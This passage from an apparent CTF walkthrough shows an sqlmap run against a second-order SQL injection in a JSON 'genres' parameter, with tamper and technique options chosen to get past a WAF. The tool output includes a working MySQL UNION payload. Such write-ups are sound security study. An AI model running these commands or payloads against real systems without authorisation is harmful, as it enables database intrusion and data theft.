 I’ll do this in Burp by right clicking and selecting “Copy to file”. This is
preferred over giving it the URL because then the cookies and other headers
will match.

The `sqlmap` syntax has updated over the last five years since Nightmare.
`--second-order` is deprecated in favor of `--second-req`. I’ll give it
`--tamper=space2comment` (sqlmap will fail without this for the reasons seen
above, but it will also suggest trying this tamper). I’ll also give it
`--technique=U` to limit to union injections. It will find the union without
this, but it’ll go faster since I know this is possible. I will need to
increase the `--level 5`, which is the max. With all of this, it finds the
injection:

    
    
    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5
    ...[snip]...
    [16:39:51] [INFO] parsing HTTP request from 'genres.request'
    [16:39:51] [INFO] parsing second-order HTTP request from 'feed.request'
    [16:39:51] [INFO] loading tamper module 'space2comment'
    JSON data found in POST body. Do you want to process it? [Y/n/q] Y
    Cookie parameter 'XSRF-TOKEN' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
    Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
    [16:39:51] [INFO] testing connection to the target URL
    [16:39:51] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
    [16:39:51] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON genres' might not be injectable
    [16:39:52] [INFO] testing for SQL injection on (custom) POST parameter 'JSON genres'
    it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
    [16:39:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [16:40:00] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
    [16:40:08] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
    [16:40:09] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [16:40:10] [INFO] target URL appears to have 5 columns in query
    [16:40:10] [INFO] (custom) POST parameter 'JSON genres' is 'MySQL UNION query (NULL) - 1 to 10 columns' injectable
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] Y
    (custom) POST parameter 'JSON genres' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 85 HTTP(s) requests:
    ---
    Parameter: JSON genres ((custom) POST)
        Type: UNION query
        Title: MySQL UNION query (NULL) - 5 columns
        Payload: {"genres":"food') UNION ALL SELECT NULL,NULL,CONCAT(0x71786a6271,0x494a62554f746d6d4c4e6a516167514a717443754e775069554a4c62424959456f535751634d7668,0x7171706271),NULL,NULL#"}
    ---
    [16:40:10] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    [16:40:10] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL Unknown (MariaDB fork)
    [16:40:11] [WARNING] HTTP error codes detected during run:
    500 (Internal Server Error) - 35 times